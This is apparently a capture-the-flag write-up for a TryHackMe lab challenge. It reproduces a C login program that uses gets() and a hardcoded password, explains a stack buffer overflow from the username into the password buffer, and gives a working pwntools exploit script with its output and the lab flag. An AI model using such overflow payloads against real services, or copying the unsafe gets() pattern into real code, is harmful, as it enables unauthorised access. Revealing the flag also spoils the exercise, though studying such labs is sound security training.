 ﻿# CONTEXT
---


Cipher asked me to create the most secure vault for flags, so I created a vault that cannot be accessed. You don't believe me? Well, here is the code with the password hardcoded. Not that you can do much with it anymore.

**Note:** To start the target machine, click the Start Machine button:

You can use the following command to connect to the machine:

`nc 10.10.61.110 1337`

Download the source code from [here](https://drive.google.com/file/d/1kYIR2JEfLfbzifHgpGBj2xuBgGxNLp46/view?usp=sharing).

This challenge was originally a part of the Hackfinity Battle 2025 CTF Event.


Let's begin.


# EXPLOITATION
---

So, we know there's a binary running on port `1337`, let's use netcat to interact with it:

```
nc 10.10.61.110 1337
 ______ _ __ __ _ _
 | ____| | \ \ / / | | |
 | |__ | | __ _ __ \ \ / /_ _ _ _| | |_
 | __| | |/ _` |/ _` \ \/ / _` | | | | | __|
 | | | | (_| | (_| |\ / (_| | |_| | | |_
 |_| |_|\__,_|\__, | \/ \__,_|\__,_|_|\__|
 __/ |
 |___/

Version 1.0 - Passwordless authentication evolved!
==================================================================

Username: test
Wrong password! No flag for you.
```

As seen, it seems to be asking for a password, luckily for us, we got the source code of the file:

```c
#include <stdio.h>
#include <string.h>

void print_banner(){
	printf( " ______ _ __ __ _ _ \n"
 		" | ____| | \\ \\ / / | | | \n"
		" | |__ | | __ _ __ \\ \\ / /_ _ _ _| | |_ \n"
		" | __| | |/ _` |/ _` \\ \\/ / _` | | | | | __|\n"
		" | | | | (_| | (_| |\\ / (_| | |_| | | |_ \n"
		" |_| |_|\\__,_|\\__, | \\/ \\__,_|\\__,_|_|\\__|\n"
		" __/ | \n"
		" |___/ \n"
		" \n"
		"Version 1.0 - Passwordless authentication evolved!\n"
		"==================================================================\n\n"
	 );
}

void print_flag(){
	FILE *f = fopen("flag.txt","r");
	char flag[200];

	fgets(flag, 199, f);
	printf("%s", flag);
}

void login(){
	char password[100] = "";
	char username[100] = "";

	printf("Username: ");
	gets(username);

	// If I disable the password, nobody will get in.
	//printf("Password: ");
	//gets(password);

	if(!strcmp(username, "bytereaper") && !strcmp(password, "5up3rP4zz123Byte")){
		print_flag();
	}
	else{
		printf("Wrong password! No flag for you.");
	}
}

void main(){
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stderr, NULL, _IONBF, 0);

	// Start login process
	print_banner();
	login();

	return;
}
```

This binary is vulnerable to `Buffer Overflow`:

1. **Buffer Overflow in `username`**:
 - The `gets(username)` function reads input without bounds checking, allowing overflow into adjacent memory.
 - The `password` buffer (initialized as empty) is adjacent to `username` on the stack. Overflowing `username` can overwrite `password`.
 
2. **Stack Layout**:
 - `password[100]` is allocated first (lower memory address).
 - `username[100]` is allocated next (higher memory address).
 - Writing beyond 100 bytes in `username` overflows into `password`.
 
3. **Login Bypass**:
 - The login check requires:
 - `username == "bytereaper"`
 - `password == "5up3rP4zz123Byte"`.
 - By crafting a payload that sets `username` to `"bytereaper"` (with proper null termination) and overflows into `password` with the correct value, we can satisfy both conditions.


Knowing all that, we can use this python script:

```python
#!/usr/bin/env python3
from pwn import *
import re

def main():
 # Remote host and port (updated for this target)
 host = "10.10.61.110"
 port = 1337

 # Enable pwntools logging so we see:
 # [+] Opening connection to 10.10.61.110 on port 1337: Done
 # [+] Receiving all data: Done (XXB)
 # [*] Closed connection to 10.10.61.110 port 1337
 context.log_level = "info"

 # 1) Connect to the remote service
 conn = remote(host, port)

 # 2) Build the payload
 # - "bytereaper\x00" makes strcmp(username, "bytereaper") succeed
 # - 101 "A" bytes overflow into the password buffer
 # - "5up3rP4zz123Byte" is the hardcoded password the program expects
 payload = (
 b"bytereaper\x00" # username + null terminator
 + b"A" * 101 # overflow filler up to password check
 + b"5up3rP4zz123Byte" # correct password string
 )

 # 3) Wait until the remote binary prompts "Username:"
 conn.recvuntil(b"Username:")

 # 4) Send the payload (pwntools will automatically append "\n")
 conn.sendline(payload)

 # 5) Read everything the server sends back (banner + flag or error)
 # We give a small timeout to avoid hanging indefinitely
 response = conn.recvall(timeout=2).decode(errors="ignore")

 # 6) Close the connection
 conn.close()

 # 7) Extract the flag from the response.
 # The flag is expected to match THM{¦}, so we search with a regex.
 match = re.search(r"THM\{.*?\}", response)
 if match:
 # Print only the flag, prefixed so it's clear in the output
 print(f"Flag: {match.group(0)}")
 else:
 # If no flag was found, print the full response for debugging
 print("No flag found. Full response:\n")
 print(response)

if __name__ == "__main__":
 main()
```

Once we run the script, we get:

```python
python3 exploit.py
[+] Opening connection to 10.10.61.110 on port 1337: Done
[+] Receiving all data: Done (24B)
[*] Closed connection to 10.10.61.110 port 1337
Flag: THM{password_0v3rfl0w}
```

Got our flag:

```python
THM{password_0v3rfl0w}
```

![Pasted image 20250605184529.png](../../IMAGES/Pasted%20image%2020250605184529.png)

